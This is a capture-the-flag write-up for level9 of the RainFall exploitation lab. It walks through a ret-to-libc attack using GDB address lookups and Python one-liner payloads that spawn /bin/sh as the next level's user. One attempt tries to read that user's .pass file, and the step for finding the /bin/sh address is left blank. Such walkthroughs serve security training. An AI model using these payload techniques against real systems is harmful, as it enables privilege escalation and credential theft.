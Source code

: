 ## Flag9 README: Finding Flag9

We are now into `/home/user/level9`

We have a program called **level9**
We dowload it with our best friend command:
```sh
scp -P 4343 level9@localhost:/home/user/level9/level9 ~
```

After decompilation (cf [source](../source))
We realize we had a function called at the end of the program.
Okay so our plan is to execute a `/bin/bash` into this program. So after doing some research we find a exploit called `ret to libc`. Which basicly is change the address of a ret in a function from his old address from a adress into `libc`. Here we want to switch it with address of `system + exit + /bin/sh`.

So the payload is going to look like:
```
PAYLOAD= padding + address of system + adress of exit + address of /bin/sh
```

Okay let's find out adresses...

For `system` and `exit`, no difficulty here, we are using command `print` of GDB:

```sh
(gdb) p system
$2 = {<text variable, no debug info>} 0xb7d86060 <system>
(gdb) p exit
$3 = {<text variable, no debug info>} 0xb7d79be0 <exit>
(gdb)
```

Okay, nex step, we need to find the address of `/bin/sh`, a bit harder but don't worry we spare you researches:

```sh
?????????
```
Okay now we have all our address.

Now we need to find where to put it...
As you can see we have a buffer of `108`.
OKay so let's try our payload like:
```sh
./level9 $(python -c 'print("\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08")')
```
Nothing happens.
After analyzing our program, we understood that we needed to pass pointer of pointer.
Okay no problem:

```sh
level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08")')
sh: 1: 
       : not found
level9@RainFall:~$ 
```

Something happened ...
But we cannot run any command.
We tryed some stuff like :
```sh
$(python -c 'print("\x60\x60\xd8\xb7" + "\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08")' + "; cat ../bonus0/.pass")
```
But it did not work.
After few tries, we came up with a solution :

```sh
$(python -c 'print("\x60\x60\xd8\xb7" + "\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08")' + ";/bin/sh")
```

And voila we are now log with bonus0

```sh
level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08" + ";/bin/sh")')
sh: 1: 
       : not found
$ whoami
bonus0
$ 
```
